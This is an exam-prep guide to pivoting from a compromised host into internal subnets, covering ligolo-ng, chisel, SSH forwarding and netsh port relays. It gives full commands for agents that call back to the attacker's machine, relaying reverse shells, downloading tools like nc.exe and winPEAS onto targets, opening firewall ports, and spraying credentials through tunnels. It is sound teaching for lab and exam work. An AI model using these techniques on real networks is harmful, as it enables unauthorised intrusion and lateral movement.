

# Pivoting & Tunnelling { #pivoting-tunnelling }

<div class="dfir-meta" markdown>
**Where it matters:** AD set — reaching internal subnets · **Priority:** High · **Last updated:** 2026-11-03
</div>

!!! abstract "In one sentence"
    The failure that shows up most in 2025–2026 write-ups: owning the first machine but never getting traffic into the internal network behind it. Pivoting is the fix — make the compromised host carry your tools' traffic onward.

## 1. Concept { #concept }

### When you need to pivot { #when-to-pivot }

Signs that there is a network you can't reach yet:

- `ipconfig /all` or `ip addr` on the foothold shows a **second interface** on a different subnet.
- A host has services bound to `127.0.0.1` only.
- BloodHound / enumeration names machines you cannot ping or scan from Kali.

The shape of the problem: Kali can talk to the foothold, the foothold can talk to the internal hosts, but Kali cannot talk to the internal hosts directly. You route through the foothold.



### Three kinds of pivot { #pivot-types }

| Kind | What you get | Tools |
|---|---|---|
| **Layer-3 tunnel** | A real route on Kali — every tool works unchanged | ligolo-ng |
| **SOCKS proxy** | A proxy port; tools run through `proxychains` | chisel, `ssh -D` |
| **Single port forward** | One remote port appears on Kali (or the reverse) | `ssh -L/-R`, chisel `R:`, ligolo-ng listener |

## 2. Main tools { #tools }

| Tool | Use it for | Exam status |
|---|---|---|
| **ligolo-ng** | Default choice: TUN interface, routes, listeners, double pivots | Allowed |
| **chisel** | Fallback: reverse SOCKS and port forwards over HTTP | Allowed |
| **ssh** | `-L`, `-R`, `-D` when you have SSH on a Linux pivot | Allowed |
| **proxychains4** | Run tools through a SOCKS proxy | Allowed |
| **netsh portproxy / socat** | Quick single-port relays on Windows / Linux pivots | Allowed |

!!! danger "Exam rule — no Metasploit pivoting"
    Meterpreter `autoroute`, `portfwd` and the socks proxy module count as using Metasploit against more than one target — not allowed. Use the standalone tools on this page. See [Metasploit limits](exam-format.md#metasploit).

## 3. Scenarios { #scenarios }

### 3.1 ligolo-ng — route a whole subnet { #ligolo-ng }

**Situation:** You have a shell on MS01; `ipconfig` shows `10.10.120.0/24` on a second NIC.

**1. One-time setup on Kali — create the tun interface:**

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

**2. Start the proxy (listener) on Kali:**

```bash
./proxy -selfcert          # lab/exam use; listens on 0.0.0.0:11601 by default
```

**3. Run the agent on the compromised host**, pointing back at Kali:

=== "Linux target"

    ```bash
    ./agent -connect <KALI_IP>:11601 -ignore-cert
    ```

=== "Windows target"

    ```powershell
    .\agent.exe -connect <KALI_IP>:11601 -ignore-cert
    ```

`-ignore-cert` is for lab/exam use with `-selfcert` only.

**4. In the proxy console, select the session and add the route to the internal subnet:**

```text
ligolo-ng » session
ligolo-ng » interface_add_route --name ligolo --route 10.10.120.0/24
ligolo-ng » tunnel_start --tun ligolo
```

!!! note "Command names differ between versions"
    Older releases use `start` in the console and a manual route on Kali (`sudo ip route add 10.10.120.0/24 dev ligolo`). Type `help` in the proxy console to see your version's commands — and fix your cheat sheet to the version you'll take into the exam.

**What to read:** `Agent joined` in the proxy console; after `tunnel_start`, `ip route` on Kali shows `10.10.120.0/24 dev ligolo`.

**Next:** scan and attack directly from Kali:

```bash
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"
nmap -sT -Pn --top-ports 200 10.10.120.142      # TCP connect only through a tunnel
evil-winrm -i 10.10.120.142 -u svc_sql -p 'Found_Pass1'
```

### 3.2 ligolo-ng — reverse shells and downloads from internal hosts { #ligolo-listeners }

**Situation:** You exploit MS02 (internal) but its reverse shell can't reach Kali.

Add a **listener** on the agent that forwards a port back to your handler:

```text
ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
ligolo-ng » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp      # file server
ligolo-ng » listener_list
```

Point the payload at **MS01's internal IP** on `:4444`; it is relayed to `nc -lvnp 4444` on Kali. Downloads: `iwr http://<MS01_internal_IP>:8080/nc.exe ...` reaches `python3 -m http.server 80` on Kali.

!!! tip "Firewall on the pivot"
    A Windows pivot's firewall may block the inbound listener port. If MS02 can't connect, try a port that's already allowed, or (as admin) add a rule: `netsh advfirewall firewall add rule name=l dir=in action=allow protocol=tcp localport=4444`.

### 3.3 ligolo-ng — reach the agent's own localhost { #ligolo-localhost }

To hit a service bound to `127.0.0.1` on the compromised host itself, Ligolo-ng maps the unused range `240.0.0.0/4` to the agent's loopback:

```bash
sudo ip route add 240.0.0.1/32 dev ligolo
```

Then target `240.0.0.1` — e.g. an internal admin panel on `127.0.0.1:8000` becomes `http://240.0.0.1:8000`.

### 3.4 Double pivot { #double-pivot }

**Situation:** MS02 has a NIC on a third subnet (`172.16.10.0/24`) that MS01 can't reach.

On the first agent, add a listener that relays the control channel back to your proxy:

```text
ligolo-ng » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

Run a second agent on MS02 connecting to **MS01's** internal IP on that port. On Kali create a second interface (`sudo ip tuntap add user $(whoami) mode tun ligolo2; sudo ip link set ligolo2 up`), select the new session, and route `172.16.10.0/24` to `ligolo2`. Each hop relays the control channel back one step until it reaches Kali.

### 3.5 chisel — the fallback { #chisel }

**Situation:** ligolo-ng's agent is blocked or the architecture is odd.

```bash
# Kali (server)
./chisel server -p 8000 --reverse
```

```powershell
# target (client) — reverse SOCKS back to Kali (Kali gets 127.0.0.1:1080)
.\chisel.exe client <KALI_IP>:8000 R:socks
# or forward just one port: internal 10.10.120.142:5985 → Kali 127.0.0.1:5985
.\chisel.exe client <KALI_IP>:8000 R:5985:10.10.120.142:5985
```

Add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`, then prefix tools with `proxychains -q`:

```bash
proxychains -q nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS"
proxychains -q impacket-psexec "$DOMAIN/admin:Pass@10.10.120.142"
```

**What to read:** `session#1: Client version ... connected` on the server. Timeouts through proxychains → use `-sT -Pn` for nmap, and keep port lists short.

### 3.6 SSH forwarding { #ssh-forwarding }

**Situation:** You have SSH credentials or a key for a Linux pivot — no uploads needed.

| Goal | Command | Effect |
|---|---|---|
| Reach one internal port | `ssh -L 8080:10.10.120.142:80 user@pivot` | Kali `localhost:8080` → internal `:80` |
| Reach the pivot's own localhost | `ssh -L 3306:127.0.0.1:3306 user@pivot` | Kali `localhost:3306` → pivot's MySQL |
| Expose a Kali port to the pivot | `ssh -R 4444:127.0.0.1:4444 user@pivot` | Pivot `:4444` → Kali `:4444` (reverse shells) |
| Whole-subnet SOCKS | `ssh -D 1080 user@pivot` | SOCKS proxy on Kali `:1080` → use with proxychains |

Add `-N -f` to run in the background without a shell. Already inside an SSH session? Type `~C` at the start of a line to add a forward on the fly.

### 3.7 Windows built-in port forward — netsh { #netsh }

**Situation:** You are admin on a Windows pivot and want a quick single-port relay without uploading anything.

```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8445 connectaddress=10.10.120.142 connectport=445
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8445    # clean-up
```

### 3.8 File transfer onto internal hosts { #file-transfer }

Once routed, serve files from Kali and pull them in:

```bash
python3 -m http.server 80           # on Kali
```

```powershell
iwr http://<KALI_IP>/winPEAS.exe -OutFile C:\Windows\Temp\wp.exe   # on target (ligolo route)
```

With a ligolo-ng route the internal host can't route back to Kali by itself — use a [listener](#ligolo-listeners) on the agent, or an SMB server reachable through it (`impacket-smbserver share . -smb2support`). More → [Shells & file transfer](shells-file-transfer.md).

## 4. Common mistakes { #mistakes }

- **SYN / ping scans through a tunnel.** Through SOCKS only full TCP connects work: `nmap -sT -Pn`. Ligolo-ng handles ICMP, but scans are still slower — use short port lists.
- **Forgetting the return path.** Routes go Kali → internal; reverse shells from internal hosts need a listener / `-R` forward.
- **Overlapping routes** — your `tun0` VPN range and the internal range overlap, or a stale ligolo route remains from a previous session (`ip route` to check, `sudo ip route del ...`).
- **Pivot shell dies → tunnel dies.** Run the agent as a separate process (`Start-Process`, `nohup ... &`) so it survives the shell.
- **Kerberos through the tunnel without names.** Add internal hosts to `/etc/hosts` and use hostnames.

## 5. Exam tips { #exam-tips }

- Practise the ligolo-ng setup until it takes under two minutes, from memory, with the exact version you'll use.
- Keep agents for both Windows (x64) and Linux in your tools folder.
- Note the internal subnet, the pivot host and the forwards you used — the report must explain how you reached each internal machine.

## Related pages

- [Exam workflow](exam-workflow.md) · [Active Directory](active-directory.md) · [Shells & file transfer](shells-file-transfer.md)
- [Nmap](../../pentesting/recon/nmap/index.md) — scanning through a tunnel (`-sT -Pn`)
- Defender view: [Network](../../network/index.md) · [Beaconing / C2](../../network/beaconing-c2.md) · [Zeek](../../network/zeek/index.md)

## References

- [Ligolo-ng documentation](https://docs.ligolo.ng/)
- [Ligolo-ng — reaching the agent's localhost (240.0.0.0/4)](https://docs.ligolo.ng/Localhost/)
- [Chisel](https://github.com/jpillora/chisel)
